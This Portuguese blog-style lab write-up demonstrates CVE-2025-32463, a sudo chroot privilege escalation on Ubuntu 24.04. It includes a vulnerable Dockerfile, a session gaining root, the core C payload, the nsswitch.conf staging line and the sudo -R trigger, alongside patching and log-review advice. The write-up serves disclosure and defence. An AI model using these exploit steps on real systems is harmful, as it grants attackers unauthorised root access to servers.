

# Como hackear o servidor da empresa?

Neste artigo eu demonstro como obter direitos de `root` de forma fraudulenta em uma máquina rodando Ubuntu. Passados
mais de 30 dias da descoberta e divulgação da falha de segurança adiciono detalhes sobre sua exploração.

Este artigo foi originalmente publicado em Julho de 2025. A
[CVE-2025-32463](https://www.cve.org/CVERecord?id=CVE-2025-32463) foi publicada em 30 de Junho de 2025.

## Índice


1. [Aviso Importante](#aviso-importante)
2. [Conclusão](#vamos-começar-pela-conclusão)
3. [Elevação de privilégios com sudo chroot](#elevação-de-privilégios-com-sudo-chroot)
4. [Por que isto é relevante?](#por-que-isto-é-relevante)
5. [A Falha e a Invasão](#a-falha-e-a-invasão)
6. [Detalhes Técnicos](#alguns-detalhes-técnicos)
7. [Agradecimentos e Créditos](#agradecimentos-e-créditos)
8. [Apêndice](#apêndice)

## Aviso importante

Eu não vou dar a você o passo a passo para cometer crimes. Na realidade, no artigo eu vou omitir algum código fonte de
forma a garantir que ninguém fique tentado a exercitar este experimento nos servidores da empresa onde trabalha.

De qualquer forma, com este texto eu quero enfatizar a importância de manter os servidores sempre, repito, SEMPRE, vou
dizer novamente, SEMPRE, atualizados com os _patches_ de segurança disponíveis.

Nos créditos e agradecimentos do final, eu cito o nome do pesquisador que encontrou a falha de segurança e a CVE
relacionada. Com estes dados em mãos, qualquer pessoa minimamente qualificada pode ser uma ameaça.

Repito, além de mim qualquer um dos funcionários da empresa que possuir um inglês mediano pode pesquisar sobre o assunto
e poderá ser capaz de obter direitos de `root` nos servidores (se estes servidores não estiverem atualizados).

## Vamos começar pela conclusão?

Iremos comprovar nas próximas seções que um usuário comum consegue acesso de superusuário explorando uma falha de
segurança no utilitário `sudo`. Na realidade, qualquer pessoa com acesso à internet e algum conhecimento técnico é capaz
de reproduzir o ataque que eu demonstrarei a seguir.

Se você não tem certeza sobre a situação das máquinas sob sua responsabilidade, saia do banho agora e vai correndo
(pelado mesmo) executar a atualização dos seus servidores e imagens Docker.

Destaco que após a atualização do `sudo` para a versão `1.9.15p5-3ubuntu5.24.04.1` [2] eu confirmei que a versão
atualizada NÃO é susceptível ao ataque demonstrado neste artigo. Por fim:

- Todos nós precisamos ser pró-ativos e vigilantes no mundo virtual;
- Adote práticas recomendadas, como atualização de _patches_ de segurança, acompanhamento e monitoramento de eventos de
  segurança e prática contínua de segurança defensiva;
- Avalie os logs e busque o uso de `runchroot=` ou `CHROOT=`;
- Avalie seu arquivo `sudoers`.

## Elevação de privilégios com sudo chroot

O utilitário `sudo` é uma ferramenta de linha de comando de sistemas Linux que permite que um usuário autorizado execute
um comando como superusuário ou como outro usuário, conforme especificado pela política de segurança. É usado em um
modelo de privilégios mínimos, delegando tarefas administrativas que exigem privilégios elevados sem compartilhar a
senha `root`.

As informações sobre a falha de segurança e sobre os métodos de exploração ainda são quentíssimas. Em português, os
artigos são todos de Julho de 2025, tageados como `Risco Iminente`. Nestes artigos somos informados que:

> O CVE-2025-32463 foi introduzido na versão v1.9.14 (junho de 2023) com a atualização do código de tratamento de
> correspondência de comandos quando o recurso chroot é usado.

E também que:

> O problema afeta as versões do sudo entre 1.9.14 e 1.9.17, e foi confirmado em distribuições como Ubuntu 24.04.1 e
> Fedora 41 Server.

Eu mesmo explorei a falha usando Ubuntu 24 LTS.

```sh
normalzinho@maquina:/$ cat /etc/*release*
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=24.04
DISTRIB_CODENAME=noble
DISTRIB_DESCRIPTION="Ubuntu 24.04.2 LTS"
PRETTY_NAME="Ubuntu 24.04.2 LTS"
NAME="Ubuntu"
VERSION_ID="24.04"
VERSION="24.04.2 LTS (Noble Numbat)"
```

```sh
normalzinho@maquina:/$ sudo --version
[...]
Sudoers I/O plugin version 1.9.15p5
Sudoers audit plugin version 1.9.15p5
```

## Por que isto é relevante?

É sério? EU CONSIGO VIRAR O ROOT NO SEU SERVIDOR SE EU TIVER ACESSO AO SHELL DA MÁQUINA!

Note que meu usuário, o normalzinho, não tem direitos de root. Ele não está no arquivo `sudoers`, nem nada sofisticado
que você possa imaginar:

```sh
normalzinho@maquina:/$ sudo --list
[sudo] password for normalzinho:
Sorry, user normalzinho may not run sudo on 3cfd15957d74.
```

## A falha e a invasão

A falha de segurança que estamos explorando recebeu o código CVE-2025-32463. O problema surge ao permitir que um usuário
sem privilégios invoque chroot() em um caminho com direitos de escrita sob controle do usuário malicioso (diretório não
confiável).

Este lab consiste na execução de um código PoC em um servidor Ubuntu 24.04.2 LTS com `sudo` v1.9.15p5, usando um usuário
sem privilégios e sem regras `sudo` definidas mas que resulta em um shell root fora do ambiente chrooted.

O que eu fiz foi:

- usando a informação contida na descrição da falha; [3]
- eu criei o meu **"Abra Cadabra"** que você pode ver em uso abaixo.

Ele consiste em um pouco de `C`, um pouco de `BASH`, mas nada realmente complexo ou difícil de entender. E, adivinha?
Ele funciona e é capaz de me dar direitos de `root`. Direitos que, vou dizer de novo, eu NÃO DEVERIA TER! [1]

```sh
# No diretório raiz deste repositório, executei:
$ docker build -t cve .
[...]

$ docker run --rm -it -w /home/normalzinho/ cve

# Estou dentro do container
normalzinho@maquina:/$ ls -l
[...]
-rwxrwxr-x 1 root root 431 Aug 22 21:08 abra-cadabra.sh

normalzinho@maquina:~$ whoami
normalzinho

normalzinho@maquina:~$ ./abra-cadabra.sh
Perdeu, mané!

root@maquina:/# whoami
root
```

Para você entender melhor o ambiente usado, abaixo o Dockerfile da imagem que foi usada para os testes deste
laboratório.

```Dockerfile
FROM ubuntu:24.04

ENV DEBIAN_FRONTEND=noninteractive

SHELL ["/bin/bash", "-o", "pipefail", "-c"]

# Prepare the environment
RUN apt-get update -y \
    && apt-get install -y --no-install-recommends \
        gcc=* libc6-dev=* ca-certificates=* libnss3-tools=* \
        sudo=1.9.15p5-3ubuntu5 \
# Clean up
    && rm -rf /var/lib/apt/lists/* /var/cache/apt/archives/*

# ==================================================================
# Setup
# ------------------------------------------------------------------
ARG GID=1001
ARG UID=1001
ARG USERNAME="normalzinho"
RUN groupadd -g "${GID}" -o "${USERNAME}" \
    && useradd -m -u "${UID}" -g "${GID}" -o -s /bin/bash -p "$(openssl passwd -1 123456)" -l "${USERNAME}"
USER $USERNAME

# Copiar a ferramenta que explora falha para a minha imagem
COPY local/abra-cadabra.sh /home/normalzinho/abra-cadabra.sh

HEALTHCHECK NONE
```

## Alguns detalhes técnicos

Passados mais de um mês da descoberta e divulgação da falha de segurança, podemos oferecer alguns detalhes sobre sua
exploração:

Para explorar a falha, precisamos:

- ter acesso local à máquina (CLI, por exemplo);
- criar/ter acesso a um diretório local comprometido;
- neste diretório, criar uma biblioteca de sistema fake que faça o que precisamos fazer, ou seja, que nos dê acesso como
  root;
- executar o `sudo` com chroot para o diretório comprometido.

Nossa biblioteca precisa, basicamente:

```C
setreuid(0,0); # Alterar (setar) o usuário e o grupo
setregid(0,0);
chdir("/");    # Alterar o diretório corrente (nós vamos usar sudo com chroot)
execl("/bin/bash", "/bin/bash", NULL);
```

Então, usando nosso diretório comprometido, preparar o cenário com coisas como:

```bash
echo "passwd: /vixe32463" >vixe/etc/nsswitch.conf
cp /etc/group vixe/etc
```

E finalmente, explorar a falha com:

```bash
sudo -R vixe vixe
```

## Agradecimentos e créditos

A vulnerabilidade CVE-2025-32463 (**Sudo chroot Elevation of Privilege**) foi descoberta por Rich Mirch, da Stratascale
Cyber Research Unit. A equipe da Stratascale também agradece ao mantenedor do Sudo, Todd Miller, pela parceria.

## Apêndice

### [1] Falha de segurança explorada no Ubuntu 24 LTS



Um ataque cracker bem sucedido realizado pelo usuário `normalzinho`. Eu não sei a senha do root desta máquina
(lembre-se, é Ubuntu, o `root` tem uma senha aleatória e/ou a conta root está bloqueada por padrão).

Se você precisa criar sua própria ferramenta para explorar esta falha, pesquise sobre a CVE e seu descobridor. Leia o
material relevante que aparecer. Em poucas horas você irá obter todas as informações para hackear computadores usando
esta técnica.

### [2] Mantenha sempre atenção aos detalhes

Note como os números de versão não são fáceis de distinguir:

| Versão                      |  Situação  |
| :-------------------------- | :--------: |
| `1.9.15p5-3ubuntu5`         | Vulnerável |
| `1.9.15p5-3ubuntu5.24.04.1` |     OK     |

### [3] A CVE está bem documentada

Existem relatos e textos explicativos que contém toda a descrição do problema e formas de exploração. Estes relatos
foram feitos pelas pessoas envolvidadas na descoberta e correção da CVE.
